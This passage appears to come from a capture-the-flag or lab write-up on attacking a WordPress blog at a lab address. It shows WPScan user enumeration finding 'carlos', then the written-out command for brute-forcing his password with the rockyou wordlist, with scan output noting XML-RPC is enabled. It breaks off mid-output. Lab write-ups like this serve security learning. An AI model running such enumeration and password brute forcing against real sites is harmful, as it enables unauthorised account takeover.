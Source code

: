 ```code
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] carlos
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.202.113/myblog/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://10.10.202.113/myblog/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec  4 18:10:39 2024
[+] Requests Done: 3552
[+] Cached Requests: 48
[+] Data Sent: 1.001 MB
[+] Data Received: 1.077 MB
[+] Memory used: 285.047 MB
[+] Elapsed time: 00:02:52

```

* We find a user name called carlos
* Now we will brute force the password of the username
```code
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.202.113/myblog/ -U carlos -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.202.113/myblog/ [10.10.202.113]
[+] Started: Wed Dec  4 18:13:18 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.202.113/myblog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
```